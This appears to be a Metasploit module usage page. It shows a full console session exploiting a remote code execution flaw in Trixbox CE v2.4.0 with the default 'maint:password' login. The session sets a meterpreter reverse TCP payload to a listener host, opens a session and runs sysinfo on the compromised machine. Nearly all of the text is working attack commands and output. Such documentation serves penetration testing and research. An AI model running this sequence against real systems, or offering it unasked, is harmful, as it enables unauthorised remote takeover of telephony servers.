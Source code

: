 ### Trixbox CE v2.4.0
```
msf > use exploit/unix/webapp/trixbox_ce_endpoint_devicemap_rce
msf exploit(unix/webapp/trixbox_ce_endpoint_devicemap_rce) > set rhosts 192.168.1.7
rhosts => 192.168.1.7
msf exploit(unix/webapp/trixbox_ce_endpoint_devicemap_rce) > show options

Module options (exploit/unix/webapp/trixbox_ce_endpoint_devicemap_rce):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HttpPassword  password         yes       Password to login with
   HttpUsername  maint            yes       User to login with
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS        192.168.1.7      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT         80               yes       The target port (TCP)
   SRVHOST       0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT       8080             yes       The local port to listen on.
   SSL           false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                        no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                        no        The URI to use for this exploit (default is random)
   VHOST                          no        HTTP server virtual host


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic (Linux Dropper)


msf exploit(unix/webapp/trixbox_ce_endpoint_devicemap_rce) > set lhost 192.168.1.10
lhost => 192.168.1.10
msf exploit(unix/webapp/trixbox_ce_endpoint_devicemap_rce) > exploit

[*] Started reverse TCP handler on 192.168.1.10:4444
[*] 192.168.1.7:80 - Authenticating using "maint:password" credentials...
[+] 192.168.1.7:80 - Authenticated successfully.
[+] 192.168.1.7:80 - Trixbox CE v2.4.0 identified.
[*] 192.168.1.7:80 - Sending payload (150 bytes)...
[*] Sending stage (980808 bytes) to 192.168.1.7
[*] Meterpreter session 1 opened (192.168.1.10:4444 -> 192.168.1.7:4478) at 2020-05-02 03:52:53 -0400
[*] Command Stager progress - 100.00% done (799/799 bytes)

meterpreter > sysinfo
Computer     : trixbox1.localdomain
OS           : CentOS 5 (Linux 2.6.18-53.1.4.el5)
Architecture : i686
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
```